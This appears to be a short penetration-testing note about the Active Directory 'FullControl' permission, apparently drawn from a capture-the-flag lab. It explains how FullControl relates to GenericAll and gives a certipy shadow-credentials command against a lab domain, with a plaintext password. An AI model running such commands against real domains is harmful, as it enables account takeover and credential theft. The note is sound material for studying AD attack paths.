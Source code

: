 # FullControl

## Information

{% hint style="success" %}
### GenericAll vs. FullControl

* `GenericAll` is a specific **Active Directory right** that grants **full control over an object**. This includes the ability to read, write, modify, and delete the object and its properties. This is the right typically needed to fully control an AD object.
* `FullControl` is a broader Windows permission concept. When we see it in tools or GUIs (like File Explorer or ACL editors), it usually maps to `GenericAll` for AD objects, but can include some additional flags related to inheritance and specific extended rights.
{% endhint %}

`Full Control` typically refers to the highest level of permissions granted on an object in AD. It allows the user or group to perform all actions on the object, including creating, deleting, modifying, and changing permissions.&#x20;

## Exploitation

### Password Change

Check how [here](forcechangepassword.md).

### Shadow Credential

Get the object's hash and perform a PtH attack.

{% code overflow="wrap" %}
```bash
certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
```
{% endcode %}
